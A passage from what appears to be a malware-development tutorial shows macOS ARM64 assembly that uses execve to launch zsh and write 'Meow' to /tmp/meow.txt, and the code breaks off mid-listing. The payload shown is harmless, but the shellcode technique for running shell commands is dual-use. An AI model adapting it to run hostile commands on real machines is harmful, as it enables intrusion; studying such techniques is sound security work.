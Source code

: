 Then, run:     

```bash
./hack2
```

and check again:     

![malware](/assets/images/167/2025-07-20_20-16.png){:class="img-responsive"}    

As you can see, everything is worked perfectly again! =^..^=    

### practical example 4

What about write something to `/tmp/meow.txt`? For this just use this full source code `hack3.s`:    

```nasm
; macOS ARM64: execve("/bin/zsh", ["-c", 'echo "Meow" > /tmp/meow.txt'], NULL)
.global _start

.section __TEXT,__text

.align 2
_start:
  ; x0 = path to "/bin/zsh"
  adrp    x0, fname@page
  add     x0, x0, fname@pageoff

  ; prepare stack space for argv[] (4 pointers: fname, arg1, arg2, NULL)
  sub     sp, sp, #32

  ; argv[0] = "/bin/zsh"
  adrp    x1, fname@page
  add     x1, x1, fname@pageoff
  str     x1, [sp, #0]

  ; argv[1] = "-c"
  adrp    x2, arg1@page
  add     x2, x2, arg1@pageoff
  str     x2, [sp, #8]

  ; argv[2] = "echo \"Meow\" > /tmp/meow.txt"
  adrp    x3, arg2@page
  add     x3, x3, arg2@pageoff
  str     x3, [sp, #16]

  ; argv[3] = NULL
  mov     x4, xzr
  str     x4, [sp, #24]

  ; x1 = argv[]
  mov     x1, sp
```